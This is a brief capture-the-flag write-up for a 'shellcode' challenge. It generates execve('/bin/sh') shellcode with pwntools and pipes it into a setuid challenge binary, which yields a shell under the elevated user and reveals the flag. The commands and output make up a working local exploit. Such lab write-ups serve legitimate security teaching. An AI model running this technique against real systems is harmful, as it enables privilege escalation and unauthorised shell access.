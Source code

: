 ### Solved by superkojiman

Generate the shellcode, execve("/bin/sh"):

```
# python
Python 2.7.6 (default, Jun 22 2015, 17:58:13)
[GCC 4.8.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>>
>>>
>>> context(os="linux", arch="i386")
>>> open("in.txt", "w").write(asm(shellcraft.linux.sh()))
>>> quit()
```

Then just transfer in.txt to the server and pass it as input to /problems/shellcode/shellcode to get a shell:

```
team24254@shell:~$ ls
in.txt
team24254@shell:~$ (cat in.txt;cat) | /problems/shellcode/shellcode
id
uid=1028(team24254) gid=1000(ctfgroup) euid=1080(shellcode) groups=1003(shellcode),1000(ctfgroup)
ls /problems/shellcode/
Makefile  flag.txt  shellcode  shellcode.c
cat /problems/shellcode/flag.txt
nonexecutable_stack_would_be_a_good_idea
```


